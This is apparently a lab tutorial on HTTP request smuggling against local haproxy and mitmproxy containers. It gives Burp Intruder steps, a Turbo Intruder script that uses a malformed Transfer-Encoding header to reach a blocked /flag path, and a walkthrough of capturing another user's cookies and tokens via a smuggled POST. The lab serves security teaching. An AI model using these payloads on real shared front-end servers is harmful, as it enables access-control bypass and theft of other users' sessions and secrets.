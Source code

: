 
We bypassed frontend restrictions and accessed flag in backend.
But can we exploit others?

Actually it is really easy to understand that.

Let's test haproxy first:
Send the following request to intruder and choose null payloads & indefinitely.

![](../Images/5.5%20Exploit%20Connections/req_1.png)

Start the attack! Get your phone and visit http://ip:8001/
Try reloading one or two times! You will see flag downloaded!

Here it how it looks like:
![](../Images/3.5%20HTTP%20Request%20Smuggling/server_side_0.png)

Same thing but in mitmproxy:

![](../Images/5.5%20Exploit%20Connections/req_2.png)

Uncheck update content-length.
Then start attack go to http://ip:8002/

Did it work?
If your docked instance crashed, just restart it (you can also restart spesific service too)

```
sudo docker compose down && sudo docker compose up -d
```

Could you even get 200? It was probably very unstable,  let's change connection pool setting to make it reliable first:

![](../Images/5.5%20Exploit%20Connections/req_3.png)

(Uncheck 'Update Content-Length' and ensure 'Connection Reuse' is enabled. Scroll down to find the option.)

Start attack and watch, can you get 200's? (flags)

This is expected behaviour.
![](../Images/5.5%20Exploit%20Connections/expected.png)
Now go to http://ip:8002

Does it work?

No? What is the reason?

![](../Images/3.5%20HTTP%20Request%20Smuggling/server_side_1.png)

Frontend server creates a tcp connection/tunnel, each data must be send in same connection so they can affect each other.
In our case that is not possible, but it was possible in haproxy.
Even though you can't exploit others in this scenario we already bypassed proxy rule (/flag).

How to do that in turbo intruder extension:

```
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint="http://192.168.1.113:8002",
                           concurrentConnections=1,
                           engine=Engine.THREADED
                           )

    req_attack = """GET /404 HTTP/1.1
Host: we_do_not_need_host
content-length: 4
Transfer-Encoding: heyyy! chunked

31
GET /flag HTTP/1.1
Host: we_do_not_need_host


0

"""
    req_normal = """GET /something HTTP/1.1\r\n\r\n"""

    for i in range(1):
        engine.queue(req_attack)
        engine.queue(req_normal)


def handleResponse(req, interesting):
    table.add(req)

```

you can use \r\n too.

Let's go back to haproxy example.
How do you exploit someone who is using the same connection with the backend as you are?

You can try to smuggle a JavaScript file.  
When a client requests `/index.js`, you can redirect them to your site to fetch `/malicious.js`.  
However, this approach is not very reliable—you might need several attempts.  
And what happens if the backend doesn’t accept your Host header?

You need more than that!

James Kettle and many researchers have demonstrated various exploitation methods.
For example:
```
POST /profile HTTP/1.1\r\n
Host: unhackablesite.test123\r\n
Cookie: notsecret123
Content-Length: 400\r\n
\r\n
username=
```
Imagine you've performed HTTP request smuggling and sent the data to the backend.  
The backend will wait for the rest of the request (since we set the `Content-Length` header to 400).  
But you send nothing!  
If everyone is using the same connection and you've successfully smuggled that request into the backend, you just need to sit and wait.

Some user will send a request:

```
GET /home HTTP/1.1\r\n
Cookie: notsecret123
Secret: secrettoken
Host: unhackablesite.test123\r\n\r\n
```

In backend:
```
POST /profile HTTP/1.1\r\n
Host: unhackablesite.test123\r\n
Cookie: notsecret123
Content-Length: 400\r\n
\r\n
username=GET /home HTTP/1.1\r\n
Cookie: notsecret123
Secret: secrettoken
Host: unhackablesite.test123\r\n\r\n
```
Note: You need to choose the `Content-Length` header carefully—not too large, not too small."

In the end, your username will be replaced by the victim's request (there's a lab about this in portswigger)

We haven't even touched on HTTP/2 desynchronization or h2c attacks yet.  
There are many, _really_ many attack vectors to explore.

If you ever get bored:
scholar.google.com/scholar?q=http+request+smuggling
